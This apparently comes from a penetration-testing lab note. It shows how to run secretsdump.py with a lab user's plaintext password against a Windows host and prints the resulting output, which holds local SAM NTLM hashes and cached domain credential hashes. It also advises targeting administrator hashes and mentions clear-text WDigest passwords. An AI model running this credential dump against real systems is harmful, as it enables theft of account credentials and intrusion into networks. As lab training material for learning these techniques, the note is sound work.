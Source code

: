 ## **Dumping Hashes with Secretsdump.py**


## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py domain.tld/user:password@target_IP

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```


**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```


**Note :** You should always focus on the hashes of  `administrator` and other users like `frankcastle` in our place, usually Guest, DefaultAccount and WDAGUtilityAccount are more of defaults account so there is no much to worry about.

Also watch out for **Wdigest** password cos' it is an old protocol on Windows 7, Windows 8 , 2008 R2 servers, This is used to store passwords in clear text 



### **D**
## **Cracking Hashes**